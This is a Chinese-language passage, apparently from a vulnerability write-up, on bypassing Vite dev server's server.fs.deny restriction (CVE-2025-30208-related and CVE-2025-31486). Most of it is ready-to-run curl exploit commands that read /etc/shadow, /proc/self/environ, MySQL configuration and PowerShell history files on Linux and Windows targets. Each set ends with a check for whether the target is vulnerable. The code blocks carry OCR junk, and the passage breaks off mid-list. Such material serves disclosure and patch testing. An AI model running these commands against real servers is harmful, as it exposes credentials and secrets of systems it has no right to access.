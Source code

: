 **修复版本**  
: 与CVE-2025-30208相同  
  
**利用原理**  
: 通过使用特定的导入方法，如?inline&import  
或?raw?import  
，绕过server.fs.deny  
配置。  
  
**Linux系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 读取任意文件
curl "http://[目标IP]:5173/@fs/etc/passwd?inline&import"
curl "http://[目标IP]:5173/@fs/etc/passwd?raw?import"
curl "http://[目标IP]:5173/@fs/etc/shadow?inline&import"
curl "http://[目标IP]:5173/@fs/proc/self/environ?inline&import"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/etc/passwd"  # 应返回403错误
curl "http://[目标IP]:5173/@fs/etc/passwd?inline&import"  # 如果返回文件内容，则存在漏洞
```  
  
**Windows系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 读取任意文件
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini?inline&import"
curl "http://[目标IP]:5173/@fs/C:/Windows/system32/drivers/etc/hosts?inline&import"
curl "http://[目标IP]:5173/@fs/C:/Program Files/MySQL/MySQL Server 8.0/my.ini?inline&import"
curl "http://[目标IP]:5173/@fs/C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt?inline&import"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini"  # 应返回403错误
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini?inline&import"  # 如果返回文件内容，则存在漏洞
```  
### 3. CVE-2025-31486 (SVG和相对路径绕过)  
  
**影响版本**  
: < 6.2.5, < 6.1.4, < 6.0.14, < 5.4.17, < 4.5.12  
  
**修复版本**  
: 6.2.5, 6.1.4, 6.0.14, 5.4.17, 4.5.12  
  
**利用原理**  
:  
1. **SVG绕过**  
: 通过添加?.svg?.wasm?init  
或使用sec-fetch-dest: script  
头，绕过对.svg  
文件的限制检查  
  